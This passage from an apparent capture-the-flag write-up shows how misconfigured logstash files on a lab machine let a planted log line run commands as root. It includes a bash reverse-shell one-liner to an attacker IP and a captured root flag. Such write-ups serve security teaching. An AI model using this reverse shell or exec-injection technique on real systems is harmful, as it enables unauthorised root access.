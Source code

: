 Ok, now we can check the `logstash` configuration files, starting by
`/etc/logstash/conf.d/filter.conf`:
```
filter {
    if [type] == "execute" {
        grok {
            match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
        }
    }
}
```
This is `input.conf`:
```
input {
    file {
        path => "/opt/kibana/logstash_*"
        start_position => "beginning"
        sincedb_path => "/dev/null"
        stat_interval => "10 second"
        type => "execute"
        mode => "read"
    }
}
```

And the last one, `output.conf`:
```
output {
    if [type] == "execute" {
        stdout { codec => json }
        exec {
            command => "%{comando} &"
        }
    }
}
```

## Command execution as root
The vulnerability here can be exploited by writing a file in
`/opt/kibana/logstash_*` that contains the string `Ejecutar comando :` followed
by any command that we want to run. Given the misconfiguration of logstash,
the command will be executed as `root`.

Let's write the file that contains the reverse shell connection:
```
echo "Ejecutar comando : bash -i >& /dev/tcp/10.10.14.8/1338 0>&1" > /opt/kibana/logstash_revshell
```

After a couple of seconds we will get our root shell and we can print the flag:
```
[root@haystack /]# cat /root/root.txt
3f5f727c38d9f70e1d2ad2ba11059d92
```
